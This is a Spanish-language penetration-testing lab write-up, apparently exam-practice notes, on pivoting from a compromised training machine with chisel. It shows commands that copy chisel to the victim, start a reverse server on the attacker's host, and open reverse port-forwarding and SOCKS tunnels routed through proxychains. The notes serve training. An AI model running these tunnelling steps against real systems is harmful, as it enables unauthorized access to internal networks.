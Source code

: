 La idea es crear un túnel para que la máquina atacante pueda ver todas las redes que son visibles desde la máquina víctima.

Es necesario que el servidor y el cliente tengan el chisel instalado.

Para transferir el chisel a la máquina víctima, se utilizará SSH.

```bash
# Desde la máquina local
scp chisel root@192.168.0.103:/tmp/chisel
```

Esto copiará el chisel en el directorio “/tmp/” de la máquina víctima.

Una vez copiado el chisel en la máquina víctima se le debe dar permisos de ejecución.

Ahora se creará un servidor con chisel en la máquina del atacante en escucha por el puerto 1234.

```bash
# SERVIDOR
./chisel server --reverse -p 1234

--reverse # Permite que los clientes hagan Port-Forwarding
-p # Indicar un puerto en escucha
```

Ahora el cliente se debe conectar al servidor.

```bash
# CLIENTE
	# Hacer que el puerto 80 de la máquina atacante 
	# sea el puerto 80 de la máquina víctima (Nagini)
	./chisel client 192.168.0.104:1234 R:80:20.20.20.5:80

	# Utilizar una conexión socks para que todas las redes
	# y puertos de la máquina víctima, sean visibles en la 
	# máquina del atacante por el puerto 9999 (si no se 
	# especifica el puerto, se usa el 1080 por defecto)
	./chisel client 192.168.0.104:1234 R:9999:socks
	./chisel client 192.168.0.104:1234 R:socks
```

Esto se hace desde la máquina Aragog y es para que todas las conexiones que tenga esta máquina, sean visibles en un puerto de la máquina atacante.

Ahora para que estas comunicaciones funcionen, es necesario redirigir todo el tráfico TCP hacia el puerto 1080 ya que es por donde la máquina del atacante tiene acceso a todas las conexiones de la máquina víctima. Para eso hay que modificar el archivo de configuración del proxychains (”/etc/proxychains.conf”) para añadir la dirección por donde este puerto 1080 está en escucha.

Nota: De momento se usará el “strict_chain” ya que solo hay un proxy.

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 31.png)

![Untitled](../assets/eCPPTv2-Simulation-Exam/Untitled 32.png)

### Nmap con hilos
